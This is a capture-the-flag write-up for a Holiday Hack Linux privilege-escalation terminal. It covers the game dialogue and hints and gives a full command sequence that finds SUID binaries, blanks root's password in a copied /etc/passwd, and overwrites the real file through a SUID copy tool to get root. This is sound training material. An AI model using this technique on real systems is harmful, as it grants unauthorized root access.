 # linux-privesc :christmas_tree::christmas_tree::christmas_tree:
## Objective
Rose mold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

## Conversations

Rose Mold

Initial conversation:

- What am I doing in this saloon? The better question is: what planet are you from?
- Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.
- Whatever. Do you know much about privilege escalation techniques on Linux?
- You're asking why? How about I'll tell you why after you help me.
- And you might have to use that big brain of yours to get creative, bub.

After solving challengs:

- Yup, I knew you knew. You just have that vibe.
- To answer your question of why from earlier... Nunya!
- But, I will tell you something better, about some information I... found.
- There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.
- The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.
- That's all I got. K byyeeeee.
- Ugh... n00bs...

## Hints

- Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.
- There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.

## Useful AI Prompts

## Approach
For this approach, I first went through the normal Linux survey commands upon connection. Nothing really stood out, so I began looking for exploits related to the Linux distro which is Linux 3a7ac2253603 5.10.0-26-cloud-amd64.
Looking for exploits, there were some viable ones, but they would have taken some work. I spent some time reviewing [this](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/). I then pivoted to looking for a way to exploit SUID executables,
and found the following:

```console
elf@408ce566d9d0:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

At first, I went down some rabbit holes trying to think of a way to exploit one of those executables, so I went on to other challenges. I then had an epiphany - what if I grabbed the /etc/passwd file, copied it, modified the copied version so root doesn't use /etc/shadow/ and then used simplecopy to copy it back to /etc/passwd? (SMH) 

Exploit:
```console
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *

elf@ff34bc1d8894:~$ pwd
/home/elf
elf@ff34bc1d8894:~$ ls
HELP
elf@ff34bc1d8894:~$ cp /etc/passwd passwdcopy
elf@ff34bc1d8894:~$ sed -i 's;root:x:0:0:root:/root:/bin/bash;root::0:0:root:/root:/bin/bash;g' passwdcopy
elf@ff34bc1d8894:~$ /usr/bin/simplecopy passwdcopy /etc/passwd
elf@ff34bc1d8894:~$ su
root@ff34bc1d8894:/home/elf# cd /root
root@ff34bc1d8894:~# ls
runmetoanswer
root@ff34bc1d8894:~# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

When you execute runmetoanswer, your answer is case sensitive :)

## Alternate approach
